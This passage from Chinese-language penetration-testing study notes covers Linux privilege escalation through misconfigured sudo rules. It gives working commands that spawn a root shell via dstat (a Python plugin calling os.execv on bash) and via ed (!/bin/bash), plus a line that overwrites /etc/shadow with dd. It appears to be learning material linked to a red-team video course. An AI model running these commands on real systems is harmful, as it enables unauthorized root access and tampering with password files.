 ![1711099357761](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711099357761.png)

```
sudo '语句' | sudo dd of=/etc/shadow
```



##### 13,dstat

```
(root) NOPASSWD:/usr/bin/dstat
```

zx

```
find / -name dstat -type d 2>/dev/null
```

![1711100335357](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711100335357.png)

随便找一个文件编辑

![1711100357335](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711100357335.png)

内容为：

```
import os;os.execv("/bin/bash",["bash"])
```

zx

```
sudo dstat --python文件的名字
```

![1711100478630](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711100478630.png)

![1711100522873](C:\Users\86176\AppData\Roaming\Typora\typora-user-images\1711100522873.png)



##### 14.ed

```
(root) NOPASSWD:/usr/bin/ed
```

zx

```
sudo /usr/bin/ed
```

这时候已经在编辑了

写入

```
!/bin/bash
```

回车



15

还有很多很多

[「红队笔记」Linux提权精讲：Sudo风暴 - Sudo风暴全70讲，扫地僧级别心法，研究提权技术的同时，打磨你对linux内核的深度理解。渗透测试宝典。_哔哩哔哩_bilibili](https://www.bilibili.com/video/BV1DV4y1U7bT/?spm_id_from=333.999.0.0&vd_source=a1dd49fde9aa23ecdabbeb5beb3ee784)


